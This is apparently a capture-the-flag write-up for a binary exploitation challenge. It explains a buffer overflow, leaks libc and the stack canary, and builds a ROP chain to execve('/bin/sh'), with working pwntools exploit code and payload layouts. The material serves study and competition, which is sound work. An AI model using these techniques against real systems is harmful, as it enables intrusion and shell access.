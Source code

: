 And there is a bof: `read_user_str(buf, REGLE_BUF_SIZE_512+0x10);` that let us overwrite up to `0x10` bytes of data to the behind of `buf`.

### Solution

#### leak libc & canary

We can leak both `libc` and `canary` via `read_user_str` and `printf("%s",buf)` in `ecrire_regle`:

```python
sla('> ','J') # add observations
sla('> ','2') # write rules

# leak libc_start_main_ret
sea('Rule n°6: ',cyclic(7*8))
ru(cyclic(7*8)) 
leak = uu64(rc(6))
sla('Is it ok? Shall we move on? (y/n)','n')
libcbase = leak-0x94038
info_addr('libcbase',libcbase)

# gadget
prdi = 0x000000000002155f + libcbase # pop rdi ; ret
prsi = 0x0000000000023e6a + libcbase # pop rsi ; ret
prdx = 0x0000000000001b96 + libcbase # pop rdx ; ret
ret  = 0x00000000000008aa + libcbase # ret
execve = libc.sym['execve'] + libcbase
binsh = libc.search('/bin/sh').next() + libcbase

# leak canary
sea('Rule n°6: ',cyclic(521))
ru(cyclic(521))
canary = uu64(rc(7))<<8
info_addr('canary',canary)
sla('Is it ok? Shall we move on? (y/n)','n')
```

#### ret to ropchain

Because `read_user_str` will fill the last byte of `rbp` to `0x0`, so that the layout of stack will change.

and after `ecrire_regle` returned to `main`, if `go_on` (variable that control the loop,`rbp-0x58`) is `0`, `leave; ret` (the instruction at end of `main` ) would be executed and `rsp` would be replaced with `rbp` (`rbp` is pointer to our ropchain).

![](http://image.taqini.space/img/20200511042157.png)

> the value of `rbp` changes every time due to the opening of ASLR

```python
payload = p64(0xdeadbeef)*39  # padding
payload+= p64(0)              # 312 - 0
payload+= p64(0xdeadbeef)*9   # padding
payload+= p64(canary)         # 392 - canary 49
payload+= p64(ret)*8          # ret to rop
payload+= p64(prdi) + p64(binsh) # 58
payload+= p64(prsi) + p64(0)  # 61
payload+= p64(prdx) + p64(0)  # 63
payload+= p64(execve)         # 65
payload+= p64(canary)         # 66
sea('Rule n°6: ',payload)
# debug('b *$rebase(0x1dab)\nc\nx/20xg $rbp-0x58\n')
sla('Is it ok? Shall we move on? (y/n)','y')

# exit if failed
sl('9')
```
